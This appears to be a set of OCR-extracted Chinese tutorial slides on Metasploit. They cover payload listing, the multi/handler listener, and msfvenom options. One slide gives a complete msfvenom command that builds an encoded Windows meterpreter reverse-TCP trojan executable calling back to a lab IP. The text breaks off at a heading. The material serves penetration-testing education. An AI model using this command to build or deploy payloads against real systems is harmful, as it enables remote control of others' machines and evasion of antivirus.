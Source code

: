
# 三、Metasploit的使用
## payload模块(payloads)
- show payloads:查看相应的模块可使用的所有的payloads


### msfvenom生成木马文件

- 专门用来做监听的模块：multi/handler
  `use multi/handler`

--- 
# 三、Metasploit的使用

## msfvenom生成木马文件

- msfvenom -p  <playload >  <playload options> -f <format> -o <path>

```
msfvenom -a x86 --platform Windows \
-p windows/meterpreter/reverse_tcp LHOST=192.168.56.103 LPORT=4444 \
-e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 3 -f exe -o  /root/Desktop/payload.exe
```

---
### msfvenoms参数
- -p –payload < payload> 指定需要使用的payload(攻击荷载)。也可以使用自定义payload
- -f, –format < format> 指定输出格式 (使用 –help-formats 来获取msf支持的输出格式列表)
  - msfvenom  --list formats
- -e, –encoder [encoder] 指定需要使用的encoder（编码器）,指定需要使用的编码，如果既没用-e选项也没用-b选项，则输出raw payload
  -  msfvenom --list encoder查看所有的编码器
- -a, –arch < architecture> 指定payload的目标架构，例如x86 | x64 | x86_64
- –platform < platform> 指定payload的目标平台
- -i, –iterations < count> 指定payload的编码次数
- -b, –bad-chars < list> 设定规避字符集，指定需要过滤的坏字符例如：不使用 '\x0f'、'\x00';
- -o, –out < path> 指定创建好的payload的存放位置

---
# 三、Metasploit的使用
## Meterpreter
Metasploitv4之后的新版本中，Meterpreter作为后渗透攻击模块的实施通道，可以根据渗透测试目标需求进行灵活扩展。

涉及范围： 信息搜集、口令攫取、权限提升、内网拓展等。

---

## 优点
